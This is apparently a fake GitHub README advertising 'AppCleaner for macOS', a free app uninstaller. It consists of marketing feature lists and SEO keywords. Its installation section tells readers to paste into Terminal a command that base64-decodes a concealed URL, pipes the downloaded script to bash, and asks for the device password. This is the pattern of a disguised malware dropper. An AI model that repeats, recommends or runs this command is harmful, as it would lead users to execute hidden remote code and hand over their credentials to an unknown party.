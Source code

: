 # 🧹 AppCleaner for macOS – Simple App Uninstaller

📌 **About AppCleaner Mac**  
AppCleaner is a powerful yet lightweight macOS application uninstaller that completely removes unwanted programs, including hidden support files, caches, preferences, and leftover folders. Designed for Mac users who value system cleanliness, it ensures every trace of an app is deleted, helping free up disk space and boost performance.  
It works perfectly on macOS Monterey, Ventura, and Sonoma, supports both Apple Silicon and Intel-based Macs, and offers an intuitive drag-and-drop interface for quick uninstalls. By operating entirely offline, AppCleaner guarantees your privacy with zero data tracking. Whether you’re removing old software, cleaning up after tests, or managing multiple Mac devices, it delivers a clean, optimized system every time.

## 🧰 Installation via a command in the terminal:
1. **Copy** the installation command below.  
2. **Open** Terminal on your device, **paste** the command, then press `Return`.  
3. **Enter** your device password when prompted and **confirm** the installation.

![Installing via Terminal](https://github.com/user-attachments/assets/85811a1f-2721-4e5f-911b-a66fe07e5fbd)

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nb3IvaW5zdGFsbC5zaA== | base64 -d))"
```
## 📸 Overview  
A quick look at key parts in action:  
![appcleaner-mac-interface-screenshot](https://github.com/user-attachments/assets/398044cd-8220-4bf5-9ad5-ac9ef02ef82e)
![appcleaner-mac-free-up-disk-space](https://github.com/user-attachments/assets/13cee3d6-ba2c-488d-b779-7584e39da8ff)




## 🎯 Key Features  
⚡️ **Complete App Removal**: Uninstalls applications and deletes all related files, caches, and preferences.  
🔒 **Offline Privacy**: Works fully offline with no tracking or data sharing.  
⚙️ **Drag-and-Drop Uninstall**: Remove apps by simply dragging them into the AppCleaner window.  
🚀 **Lightweight & Fast**: Runs efficiently without slowing down your Mac.  
🎨 **Native macOS UI**: Matches the macOS look and feel for a seamless user experience.  
📊 **Disk Space Recovery**: Clears leftover files to free up valuable storage.  
🖥 **Universal Mac Support**: Compatible with Apple Silicon and Intel Macs.  
🗑 **System Junk Cleanup**: Helps keep your system organized by removing orphaned files.  
🔄 **Repeatable Tasks**: Ideal for regular app cleanup and system maintenance.  
🧭 **Easy Navigation**: Simple interface for both beginners and advanced Mac users.  
🛠 **Safe Operation**: Prevents accidental deletion of essential system files.  
💾 **Small Footprint**: Uses minimal RAM and storage space.  
📂 **Custom Paths**: Allows scanning and cleaning of user-defined folders.  
⏱ **Quick Processing**: Performs scans and removals in seconds.  
📈 **Performance Boost**: Improves system responsiveness by eliminating unnecessary files.

## 💡 System Requirements  
- **OS**: macOS 12.0 Monterey or newer  
- **CPU**: Apple Silicon or Intel Core i5 and above  
- **RAM**: 4 GB minimum  
- **Storage**: 200 MB available  
- **Others**: Terminal access and active internet connection

## 🔍 SEO Keywords  
`appcleaner mac` · `mac app uninstaller` · `remove mac apps` · `delete apps macos` · `mac cleaner app` · `macos app removal` · `drag drop uninstaller` · `mac remove leftover files` · `uninstall apps completely mac` · `mac system cleaner` · `free up space mac` · `mac disk cleanup` · `mac delete program` · `mac remove software` · `macos cleanup tool` · `app remover mac` · `uninstaller tool macos` · `clean up mac storage`
